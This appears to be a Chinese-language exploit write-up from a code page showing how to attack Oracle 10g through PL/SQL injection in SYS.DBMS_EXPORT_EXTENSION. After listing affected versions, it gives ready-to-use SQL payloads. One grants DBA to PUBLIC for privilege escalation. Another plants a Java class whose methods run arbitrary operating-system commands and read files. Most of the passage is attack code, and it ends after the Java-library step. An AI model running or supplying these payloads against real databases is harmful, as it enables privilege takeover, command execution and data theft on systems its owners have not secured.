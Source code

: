 **本文测试环境均为**：

```
CentOS Linux release 7.2.1511 (Core)

Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 - 64bit Production
```

执行方式很多种，这边只研究Oracle10g，并且本地实测成功的

```
•DBMS_EXPORT_EXTENSION()

•dbms_xmlquery.newcontext()

•DBMS_JAVA_TEST.FUNCALL()
```



**dbms_export_extension()**

```
•影响版本：Oracle 8.1.7.4, 9.2.0.1-9.2.0.7, 10.1.0.2-10.1.0.4, 10.2.0.1-10.2.0.2, XE(Fixed in CPU July 2006)

•权限：None

•详情：这个软件包有许多易受PL/SQL注入攻击的函数。这些函数由SYS拥有，作为SYS执行并且可由PUBLIC执行。因此，如果SQL注入处于上述任何未修补的Oracle数据库版本中，那么攻击者可以调用该函数并直接执行SYS查询。
```

###### 3.**提升权限**

```
	该请求将导致查询"GRANT DBA TO PUBLIC"以SYS身份执行。因为这个函数允许PL / SQL缺陷（PL / SQL注入）。一旦这个请求成功执行，PUBLIC获取DBA角色，从而提升当前user的特权
```

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''grant dba to public'''';END;'';END;--','SYS',0,'1',0) from dual
```

###### 4.**使用Java执行**

**创建Java库**

```
select SYS.DBMS_EXPORT_EXTENSION.GET_DOMAIN_INDEX_TABLES('FOO','BAR','DBMS_OUTPUT".PUT(:P1);EXECUTE IMMEDIATE ''DECLARE PRAGMA AUTONOMOUS_TRANSACTION;BEGIN EXECUTE IMMEDIATE ''''create or replace and compile java source named "LinxUtil" as import java.io.*; public class LinxUtil extends Object {public static String runCMD(String args){try{BufferedReader myReader= new BufferedReader(new InputStreamReader(Runtime.getRuntime().exec(args).getInputStream() ) ); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}public static String readFile(String filename){try{BufferedReader myReader= new BufferedReader(new FileReader(filename)); String stemp,str="";while ((stemp = myReader.readLine()) != null) str +=stemp+"\n";myReader.close();return str;} catch (Exception e){return e.toString();}}}'''';END;'';END;--','SYS',0,'1',0) from dual
```
